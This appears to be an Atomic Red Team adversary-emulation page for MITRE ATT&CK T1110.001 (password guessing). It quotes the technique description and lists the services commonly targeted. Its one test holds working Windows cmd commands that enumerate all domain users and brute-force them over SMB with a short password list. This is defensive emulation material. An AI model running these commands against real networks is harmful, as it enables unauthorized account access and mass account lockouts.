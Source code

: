 # T1110.001A - Password Guessing
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/001)

<blockquote>Adversaries with no prior knowledge of legitimate credentials within the system or environment may guess passwords to attempt access to accounts. Without knowledge of the password for an account, an adversary may opt to systematically guess the password using a repetitive or iterative mechanism. An adversary may guess login credentials without prior knowledge of system or environment passwords during an operation by using a list of common passwords. Password guessing may or may not take into account the target's policies on password complexity or use policies that may lock accounts out after a number of failed attempts.

Guessing passwords can be a risky option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies. (Citation: Cylance Cleaver)

Typically, management services over commonly used ports are used when guessing passwords. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)

In default environments, LDAP and Kerberos connection attempts are less likely to trigger events over SMB, which creates Windows "logon failure" event ID 4625.</blockquote>

## Atomic Tests

- [T1110.001 - Password Guessing](#t1110001---password-guessing)
  - [Description from ATT&CK](#description-from-attck)
  - [Atomic Tests](#atomic-tests)
  - [Atomic Test #1 - Brute Force Credentials of all domain users via SMB](#atomic-test-1---brute-force-credentials-of-all-domain-users-via-smb)
      - [Inputs:](#inputs)
      - [Attack Commands: Run with `command_prompt`!](#attack-commands-run-with-command_prompt)

- [Atomic Test #2 - Brute Force Credentials of single domain user via LDAP against domain controller (NTLM or Kerberos)](#atomic-test-2---brute-force-credentials-of-single-domain-user-via-ldap-against-domain-controller-ntlm-or-kerberos)


<br/>

## Atomic Test #1 - Brute Force Credentials of all domain users via SMB
Creates username and password files then attempts to brute force on remote host

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
| input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
| remote_host | Hostname of the target system we will brute force upon | String | &#92;&#92;COMPANYDC1&#92;IPC$|
| domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```






<br/>
